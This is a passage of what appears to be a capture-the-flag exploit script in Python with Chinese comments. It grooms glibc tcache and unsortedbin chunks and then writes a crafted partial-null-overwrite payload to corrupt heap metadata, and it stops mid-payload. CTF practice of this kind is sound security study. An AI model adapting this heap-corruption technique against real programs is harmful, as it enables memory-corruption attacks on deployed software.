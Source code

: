 ```


    #------tcache
    for i in range(42,49):#0xe8
        delete(i)        
    for i in range(7,14):#0x98
        delete(i)
    for i in range(21,28):#0xb8
        delete(i)
    #------tcache

    delete(0x37)
    delete(0x36)
    delete(0x32)
    delete(58)#这里58 和 0x32形成一个大的unsortedbin
    pause()

    claim(0x98)
    claim(0xb8)
    claim(0xe8)

    add(0xc8)#最大的里面分割   0x32
    add(0xb8)#0xc1分配              0x36
    add(0xb8)#最大的里面分割        0x37  
    add(0x98)#0xa1分配            58  这个是原来的50



    #--top_chunk
    add(0x98)        #0x3d
    add(0x98)        #0x3e
    add(0x18)        #0x3f
    #----------------------------------------------------
    for i in range(7,14):#0x98
        delete(i)
    for i in range(21,28):#0xb8
        delete(i)

    delete(0x3e)  #0x98
    delete(58)  #原来的50号
    delete(0x36)  #0xb8
    delete(49)#应该是3个unsortbin    49 58合并成一个大的
    raw_input('c2')


    claim(0xb8)
    claim(0x98)
    #----------------------------------------------------
    add(0xb8) #49
    add(0x98) #0x36  这两个都是直接分配

    add(0xc8)#0x3a
    add(0x68)#0x3e   这两个是0x141的切割


    #---------------------------------------------------------------------------------
    partial_null_write = 0x98*'b'
    partial_null_write += p64(0xf1)
    debug([0x1629])
    edit(0x32,partial_null_write)

    pause()
    partial_null_write = 0xa8*'c'
```